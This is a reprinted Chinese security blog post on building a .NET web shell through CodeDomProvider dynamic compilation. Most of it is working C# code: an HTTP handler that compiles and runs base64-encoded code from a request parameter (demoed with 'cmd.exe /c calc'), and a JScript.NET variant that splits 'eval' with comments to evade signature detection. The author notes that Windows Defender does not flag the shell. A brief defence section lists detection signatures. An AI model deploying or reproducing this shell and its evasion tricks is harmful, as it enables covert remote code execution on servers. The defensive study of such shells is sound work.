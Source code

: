 ```yaml
---
title: 基于.NET动态编译技术实现任意代码执行
slug: be-based-on-dotNet-dynamic-compilation-technology-to-realize-arbitrary-code-execution
description: .Net可通过编译技术将外部输入的字符串作为代码执行，动态编译技术提供了最核心的两个类
date: 2022-05-15 23:15:14
copyright: Reprint
author: Ivan1ee dotNet安全矩阵
originaltitle: 基于.NET动态编译技术实现任意代码执行
originallink: https://mp.weixin.qq.com/s/eZgnxEihQu-KULLeLJatCw
draft: False
cover: https://img1.dotnet9.com/2022/05/cover44.gif
categories: .NET相关
---
```


![](https://img1.dotnet9.com/2022/05/cover44.gif)

## 一、前言

当下主流的Waf或Windows Defender等终端杀软、EDR大多都是从特征码查杀，在.Net和VBS下一句话木马中最常见的特征是eval，对于攻击者来说需要避开这个系统关键字，可从反序列化方式避开eval，但公开已久相信很多安全产品已经能够很好检测和阻断这类攻击请求。笔者从.NET 内置的CodeDomProvider类下手实现动态编译.NET代码，指明JScrip或者C#作为编译语言，编译的WebShell目前`Windows Defender不会查杀`。而防御者从流量或终端识别 "CodeDomProvider.CreateProvider、CreateInstance"等特征码。

## 二、动态编译

.Net可通过编译技术将外部输入的字符串作为代码执行，动态编译技术提供了最核心的两个类`CodeDomProvider` 和 `CompilerParameters`，前者相当于编译器，后者相当于编译器参数，CodeDomProvider支持多种语言（如C#、VB、Jscript），编译器参数CompilerParameters.GenerateExecutable默认表示生成dll，`GenerateInMemory= true`时表示在内存中加载，CompileAssemblyFromSource表示程序集的数据源，再将编译产生的结果生成程序集供反射调用。最后通过CreateInstance实例化对象并反射调用自定义类中的方法。

```C#
CodeDomProvider compiler = CodeDomProvider.CreateProvider("C#"); ;     //编译器
CompilerParameters comPara = new CompilerParameters();   //编译器参数
comPara.ReferencedAssemblies.Add("System.dll"); //添加引用
comPara.GenerateExecutable = false; //生成exe
comPara.GenerateInMemory = true; //内存中
CompilerResults compilerResults = compiler.CompileAssemblyFromSource(comPara, SourceText(txt)); //编译数据的来源
Assembly objAssembly = compilerResults.CompiledAssembly; //编译成程序集
object objInstance = objAssembly.CreateInstance("Neteye.NeteyeInput"); //创建对象
MethodInfo objMifo = objInstance.GetType().GetMethod("OutPut"); //反射调用方法
var result = objMifo.Invoke(objInstance, null);
```

## 三、落地实现

上述代码里的SourceText方法需提供编译的C#源代码，笔者创建了NeteyeInput类，如下

```C#
public static string SourceText(string txt)
{
    StringBuilder sb = new StringBuilder();
    sb.Append("using System;");
    sb.Append(Environment.NewLine);
    sb.Append("namespace  Neteye");
    sb.Append(Environment.NewLine);
    sb.Append("{");
    sb.Append(Environment.NewLine);
    sb.Append("    public class NeteyeInput");
    sb.Append(Environment.NewLine);
    sb.Append("    {");
    sb.Append(Environment.NewLine);
    sb.Append("        public void OutPut()");
    sb.Append(Environment.NewLine);
    sb.Append("        {");
    sb.Append(Environment.NewLine);
    sb.Append(Encoding.GetEncoding("UTF-8").GetString(Convert.FromBase64String(txt)));
    sb.Append(Environment.NewLine);
    sb.Append("        }");
    sb.Append(Environment.NewLine);
    sb.Append("    }");
    sb.Append(Environment.NewLine);
    sb.Append("}");
    string code = sb.ToString();
    return code;
}
```

类里声明了OutPut方法，该方法里通过Base64解码得到输入的原生字符串，笔者在这里以计算器作为演示，将`“System.Diagnostics.Process.Start("cmd.exe","/c calc");”`编码为

```shell
U3lzdGVtLkRpYWdub3N0aWNzLlByb2Nlc3MuU3RhcnQoImNtZC5leGUiLCIvYyBjYWxjIik7
```

最后在一般处理程序ProcessRequest方法中调用

```C#
public void ProcessRequest(HttpContext context)
{
    context.Response.ContentType = "text/plain";
    if (!string.IsNullOrEmpty(context.Request["txt"]))
    {
        DynamicCodeExecute(context.Request["txt"]); //start calc: U3lzdGVtLkRpYWdub3N0aWNzLlByb2Nlc3MuU3RhcnQoImNtZC5leGUiLCIvYyBjYWxjIik7
        context.Response.Write("Execute Status: Success!");
    }
    else
    {
        context.Response.Write("Just For Fun, Please Input txt!");
    }
}
```

![](https://img1.dotnet9.com/2022/05/4401.png)

## 四、其他方法

Jscript.Net 动态编译拆解eval

在.NET安全领域中一句话木马主流的都是交给eval关键词执行，而很多安全产品都会对此重点查杀，所以笔者需要`避开eval`，而在.NET中eval只存在于Jscript.Net，所以需要将动态编译器指定为Jscript，其余和C#版本的动态编译基本一致，笔者通过插入无关字符将eval拆解掉，代码如下

```C#
private static readonly string _jscriptClassText =
        @"import System;
            class JScriptRun
            {
                public static function RunExp(expression : String) : String
                {
                    return e/*@Ivan1ee@*/v/*@Ivan1ee@*/a/*@Ivan1ee@*/l(expression);
                }
            }";
```

只需在编译的时候替换掉无关字符串“/*@Ivan1ee@*/”，最后编译后反射执行目标方法。

```C#
CompilerResults results = compiler.CompileAssemblyFromSource(parameters, _jscriptClassText.Replace("/*@Ivan1ee@*/",""));
```

## 五、防御措施

- 一般web应用使用场景不多，检测特征码：CodeDomProvider.CreateProvider、CreateInstance等等，一旦告警需格外关注；

- 由于编译生成的程序集以临时文件保存在硬盘，需加入对可写目录下dll文件内容的监控；

- 文章涉及的代码已经打包在: [https://github.com/Ivan1ee/.NETWebShell](https://github.com/Ivan1ee/.NETWebShell)